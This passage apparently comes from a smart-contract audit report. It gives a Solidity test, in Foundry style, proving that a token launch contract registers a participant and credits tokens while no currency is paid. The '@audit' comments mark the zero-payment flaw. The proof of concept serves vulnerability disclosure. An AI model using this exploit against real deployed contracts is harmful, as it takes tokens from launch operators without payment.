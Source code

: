 Then add this test in `Launch.Participate.t.sol`, and run it

```solidity
function test_Bug_Zero_Currency() public {
        // Setup new launch group
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory settings = _setupLaunchGroupWithStatusFlexible(launchGroupId, LaunchGroupStatus.PENDING);
        settings.finalizesAtParticipation = true;
        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, settings);
        launch.setLaunchGroupStatus(launchGroupId, LaunchGroupStatus.ACTIVE);
        vm.stopPrank();

        // Prepare participation request
        ParticipationRequest memory request = _createParticipationRequestExploit();
        request.launchGroupId = launchGroupId;
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        //@audit - we hardcode the approval, it does not matter anyway
        currency.approve(address(launch), 1e6);

        // Expect ParticipationRegistered event
        vm.expectEmit();
        emit ParticipationRegistered(
            request.launchGroupId, request.launchParticipationId, testUserId, user1, 0, address(currency)
        );

        // Participate
        launch.participate(request, signature);

        // Verify participation
        ParticipationInfo memory info = launch.getParticipationInfo(request.launchParticipationId);
        assertEq(info.userAddress, user1);
        assertEq(info.userId, testUserId);
        assertEq(info.tokenAmount, request.tokenAmount);
        //@audit - free participation
        assertEq(info.currencyAmount, 0);
        assertEq(info.currency, address(currency));
        assertEq(info.isFinalized, true);

        // Verify total unique participants by launch group
        assertEq(launch.getNumUniqueParticipantsByLaunchGroup(request.launchGroupId), 1);

        // Verify total tokens sold
        assertEq(launch.getTokensSoldByLaunchGroup(request.launchGroupId), request.tokenAmount);

        // Verify total withdrawable amount
        //@audit - the launch did not receive any payment
        assertEq(launch.getWithdrawableAmountByCurrency(address(currency)), 0);


        // Verify user tokens
        //@audit - but the user receives a `tokenAmount`
        assertEq(launch.getUserTokensByLaunchGroup(request.launchGroupId, testUserId), request.tokenAmount);

        vm.stopPrank();
    }
```
